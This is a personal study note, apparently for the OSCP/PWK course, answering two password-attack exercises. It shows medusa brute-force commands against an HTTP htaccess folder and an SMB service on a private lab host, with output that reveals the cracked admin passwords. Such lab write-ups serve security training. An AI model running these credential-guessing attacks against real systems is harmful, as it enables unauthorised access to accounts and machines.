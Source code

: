 19.3.1.1

# 19.3.1.1
## 19.3.1.1.1. Repeat the password attack against the htaccess protected folder.
```plaintext
kali@kali:~$ medusa -h 192.168.214.10 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
...
ACCOUNT CHECK: [http] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: samsung (255 of 14344391 complete)
ACCOUNT CHECK: [http] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: freedom (256 of 14344391 complete)
ACCOUNT FOUND: [http] Host: 192.168.214.10 User: admin Password: freedom [SUCCESS]
...
```

## 19.3.1.1.2. Create a password list containing your Windows client password and use that to perform a password attack against the SMB protocol on the Windows client.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/19_passwordAttacks$ medusa -h 192.168.214.10 -u admin -P medusa-mutated.txt -M smbnt
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: classes (1 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: partner (2 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: students (3 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: SalsaVancouver (4 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: instructor (5 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: Vancouver (6 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: column (7 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: footer (8 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: Studio (9 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: content (10 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: container (11 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: events (12 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: dancing (13 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: instructors (14 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: people (15 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: section (16 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: should (17 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: toggle (18 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: Lessons (19 of 67813 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.214.10 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: lab (20 of 67813 complete)
ACCOUNT FOUND: [smbnt] Host: 192.168.214.10 User: admin Password: lab [SUCCESS (ADMIN$ - Access Allowed)]
```

id: 06b8f9f2a3ee40889e736eb2b9419cc1
parent_id: 977bcae86a7141a6b4704655149b2f66
created_time: 2020-10-03T22:25:05.293Z
updated_time: 2020-10-03T23:25:09.942Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-03T22:25:05.293Z
user_updated_time: 2020-10-03T23:25:09.942Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1